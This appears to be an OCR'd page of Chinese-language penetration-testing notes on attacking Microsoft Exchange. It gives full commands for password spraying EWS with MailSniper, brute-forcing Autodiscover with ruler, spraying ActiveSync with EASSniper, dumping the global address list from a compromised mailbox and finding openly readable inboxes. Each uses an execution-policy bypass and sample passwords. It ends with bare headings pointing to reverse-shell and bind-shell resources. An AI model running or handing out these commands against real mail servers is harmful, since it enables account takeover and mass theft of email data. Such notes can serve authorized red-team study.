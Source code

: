 	- MailSniper脚本中Invoke PasswordSprayEWS模块

		- https://github.com/dafthack/MailSniper/blob/master/MailSniper.ps1
# powershell -exec bypass
PS > $PSVersionTable 注:此脚本只适用于高版本powershell
PS > Import Module .\MailSniper.ps1
PS > Invoke PasswordSprayEWS -ExchHostname xxx.xxx.xxx.xxx -UserList .\user.txt -Password Admin12345 -Threads 1 -Domain 0day -OutFile pwd_res.txt

- 爆破AutoDiscover接口

	- ruler

		- go get github.com/sensepost/ruler
go run ruler.go -h
./ruler-linux64 --url https://xxx.xxx.xxx.xxx/autodiscover/autodiscover.xml -k brute -u user.txt -p pwd.txt -d 0 --threads 2 -v

- 爆破Microsoft Server ActiveSync接口

	- EASSniper脚本中Invoke-PasswordSprayEAS模块

		- https://github.com/fugawi/EASSniper/blob/master/EASSniper.ps1
# powershell exec bypass
PS > $PSVersionTable 需要高版本powershell 
PS > Import Module .\EASSniper.ps1
PS > Get-Help Invoke-PasswordSprayEAS -examples
PS > Invoke-PasswordSprayEAS -ExchHostname xxx.xxx.xxx.xxx -UserList .\user.txt -Password admin@123 -Threads 2 -Domain 0day -OutFile pwd_res.txt

- 通过已控邮箱远程获取邮件系统中所有账户信息

	- MailSniper.ps1

		- https://github.com/dafthack/MailSniper/blob/master/MailSniper.ps1
# powershell exec bypass
PS D: D:\\> Import Module .\MailSniper.ps1
PS D: D:\\> Get-GlobalAddressList -ExchHostname ip -UserName sqladmin -Password admin@123 -ExchangeVersion Exchange2010_SP2 

- 查找不需要账号密码就可读取其邮件的账户

	- PS D: D:\\> Invoke-OpenInboxFinder -ExchangeVersion Exchange2010_SP2 -ExchHostname ip -EmailList user.txt -Remote

## Shell

### https://krober.biz/misc/reverse_shell.php

### bind shell
